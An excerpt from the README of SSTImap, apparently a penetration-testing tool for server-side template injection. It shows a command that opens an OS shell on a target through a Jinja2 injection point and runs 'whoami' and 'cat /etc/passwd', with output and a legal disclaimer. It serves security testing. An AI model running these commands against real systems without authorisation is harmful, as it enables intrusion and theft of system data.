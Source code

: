 Use `--os-shell` option to launch a pseudo-terminal on the target.

```
$ ./sstimap.py -u https://example.com/page?name=John --os-shell

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║ _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.3.0
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal. 
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program


[*] Testing if GET parameter 'name' is injectable
[*] Smarty plugin is testing rendering with tag '*'
...
[*] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] SSTImap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, python code

[+] Run commands on the operating system.
posix-linux $ whoami
root
posix-linux $ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```


[1]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
[2]: https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/
[3]: https://github.com/epinna/tplmap/issues/9
[4]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[5]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[6]: http://flask.pocoo.org/
[7]: http://jinja.pocoo.org/